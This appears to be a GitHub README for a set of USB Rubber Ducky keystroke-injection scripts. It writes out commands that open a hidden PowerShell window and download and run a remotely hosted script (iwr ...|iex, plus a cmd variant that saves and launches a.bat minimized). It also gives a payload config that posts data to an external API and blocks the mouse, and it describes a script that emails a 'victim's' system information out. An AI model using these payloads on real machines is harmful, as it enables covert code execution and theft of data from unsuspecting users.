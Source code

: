 <br>
<br>
<h1 align="center" style="border: none !important; padding-bottom: 1em !important;">🦆<br><br>Ducky Scripts</h1>  

<p align="center">
A few scripts for the USB rubber ducky from HAK5. The scripts are written in ducky script.
</p>

```
                                  _      _      _      USB       _      _      _
                               __(.)< __(.)> __(.)=   Rubber   >(.)__ <(.)__ =(.)__
                               \___)  \___)  \___)    Ducky!    (___/  (___/  (___/ 

```

## ExeWebScript
> **Note!** Your powershell Script file must be publicly hosted on the web and is by definition not secure. Be aware that you do not put sensitive or personal data inside the powershell script.  

This Rubber Ducky Script executes a custom powershell script that is hosted online. Host the `powershellScript.txt` or a custom script online and change the locatin in `ExeWebScript.duck` to that hosted script. 

### Ducky script
The `ExeWebScript.duck` opens the RUN box ([WINDOWS] + R), and opens a hidden powershell. `powershell -windowstyle hidden`. 
In powershell it uses IEX to execute plain text from wget. Examples:
```powershell
# shortest
  iwr www.yourSite.com/powershellScript.txt|iex

# alternative
  iex (wget www.yourSite.com/powershellScript.txt)
```
With the `AlternativeExeWebScript.duck` it first opens cmd instead of powershell and executes the next line of code:
```cmd
(powershell -Command "& {Invoke-WebRequest -Uri www.yourSite.com/powershellScript.txt -OutFile a.bat}") & start /min a.bat & exit
```

### Powershell script
The powershellScript.txt is just as an example of what some 'harmless' things that you could do.  
It comes with a config for some options.
```powershell
#================================
#            CONFIG 
#================================     

    $MinimizeWindows = $True;
    $ShowPopUp = $False;

    $OpenWebPage = $True;
        $urlNAV = "www.yourWebsite.com/PageToDisplay";
        $OpenInFullScreen = $True;    
        
    $SendPostToAPI = $True;
        $urlAPI = "www.yourWebsite.com/PostAPI";
        
    $BlockMouse = $True;
        $BlockedTimeSeconds = 8;

    $SpeakText = $True;
        $TextToSpeak = "Hi. This is a Rubber Ducky";

#===============================
```

## SendSystemInfo
> **Note!** Your password and emailadress wil be typed in plain text on the victem's computer  

This script sends the system information from a victim's computer to a specified e-mail address.
